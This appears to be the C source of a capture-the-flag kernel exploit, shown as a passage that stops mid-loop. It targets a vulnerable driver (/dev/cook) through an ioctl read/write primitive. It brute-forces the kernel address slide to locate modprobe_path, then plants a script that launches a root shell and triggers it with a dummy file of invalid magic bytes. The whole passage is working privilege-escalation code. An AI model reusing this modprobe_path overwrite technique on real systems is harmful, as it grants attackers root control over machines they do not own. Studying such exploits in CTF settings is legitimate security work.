 ```c
#include <stdio.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/stat.h>

int fd;
char evil_str[]= "/home/blud/x\x00";

void prepare_hax(void)
{
    system("echo '#!/bin/sh\nsetsid cttyhack setuidgid root sh' > /home/blud/x");
    system("chmod +x /home/blud/x");

    system("echo -ne '\\xff\\xff\\xff\\xff' > /home/blud/dummy");
    system("chmod +x /home/blud/dummy");
}

void get_shell(void)
{
    puts("[*] Run unknown file");
    system("/home/blud/dummy");

    puts("[X] PWN3D!");
}

struct Payload {
    long where;
    long value;
};

/*
root@tcp1p:~# cat /proc/kallsyms | grep -wE "_text|modprobe_path"
ffffffff81000000 T _text
ffffffff82852420 D modprobe_path
*/

#define BASE_ADDRESS 0xffffffff81000000
#define MODPROBE_PATH_OFFSET (0xffffffff82852420 - BASE_ADDRESS)


int main(int argc, char * argv[]){
    fd = open("/dev/cook", O_RDWR);
    printf("[!] Opened fd : %d\n", fd);

    prepare_hax();
    struct Payload ww;
    int offset = 0;
    long leaked_value = 0;

    for (offset=0; offset <= 512; offset++)
    {
        ww.where = &leaked_value;
        ww.value = BASE_ADDRESS + MODPROBE_PATH_OFFSET + (offset << 20);
        ioctl(fd, 0x6969, &ww);
        leaked_value = ww.where;
        printf("%d = 0x%llx\n", offset, leaked_value);
        if (leaked_value == 0x6f6d2f6e6962732f){ // "/sbin/mo"
```